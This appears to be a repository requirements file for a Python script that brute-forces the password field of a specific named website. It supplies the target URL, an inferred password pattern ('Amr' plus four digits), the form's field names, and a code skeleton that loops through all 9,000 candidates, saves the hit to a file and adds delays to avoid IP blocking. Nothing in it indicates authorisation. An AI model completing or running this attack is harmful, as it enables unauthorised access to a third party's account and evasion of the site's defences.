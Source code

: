 # Password Testing Script Requirements

## Overview
Create a Python script that automatically tests passwords on a login page until a successful login is found. The script should generate passwords following a specific pattern and test them systematically.

## Target Website Analysis
The target is a login page with the following characteristics:
- Single password input field
- Form-based authentication
- Page URL: "https://amr-elsherif.net/"

## Password Pattern
According to analysis, passwords follow this format:
- All passwords start with the word "Amr"
- Followed by a random number between 1000-9999
- Examples: "Amr2345", "Amr9387", etc.

## Technical Requirements

### Script Functionality
1. Generate passwords in the specified format (Amr + number between 1000-9999)
2. Submit each password to the login form
3. Detect successful/failed login attempts
4. Continue until a successful login is found or all possibilities are exhausted
5. Display progress during execution
6. Save successful password when found

### HTTP Information
The script should handle the following HTTP characteristics:
- Server: Cloudflare
- Content-Type: text/html
- Connection: keep-alive
- CF-RAY: 92a035806690edaf-MXP
- Potential redirection to https://amr-elsherif.net/

### Libraries to Use
1. `requests` - For handling HTTP requests
2. `BeautifulSoup` - For parsing HTML responses
3. `time` - For adding delays between requests

## Example Implementation Structure

```python
import requests
from bs4 import BeautifulSoup
import time
import random

def generate_password():
    """Generate password in format Amr + random 4-digit number"""
    number = random.randint(1000, 9999)
    return f"Amr{number}"

def test_password(password, url):
    """Test if password works on the login page"""
    # Implementation details...
    pass

def main():
    """Main function to control password testing process"""
    # URL of the login page
    login_url = "https://amr-elsherif.net/"
    
    # Track attempts
    attempts = 0
    start_time = time.time()
    
    # Test passwords from Amr1000 to Amr9999
    for number in range(1000, 10000):
        password = f"Amr{number}"
        attempts += 1
        
        # Display progress
        if attempts % 100 == 0:
            elapsed = time.time() - start_time
            print(f"Tested {attempts} passwords in {elapsed:.2f} seconds")
        
        # Test current password
        result = test_password(password, login_url)
        
        # If login successful, exit loop
        if result:
            print(f"SUCCESS! Password found: {password}")
            # Save password to file
            with open("found_password.txt", "w") as f:
                f.write(password)
            break
            
        # Add small delay to avoid overloading server
        time.sleep(0.1)

if __name__ == "__main__":
    main()
```

## Important Notes
1. The script should implement proper error handling
2. Add delays between requests to avoid server overload or IP blocking
3. Remember to update the login URL in the script

## Form Analysis from Provided HTML
- Form method: POST
- Password input name: "ps"
- Submit button name: "su"
- Submit button value: "Continue"

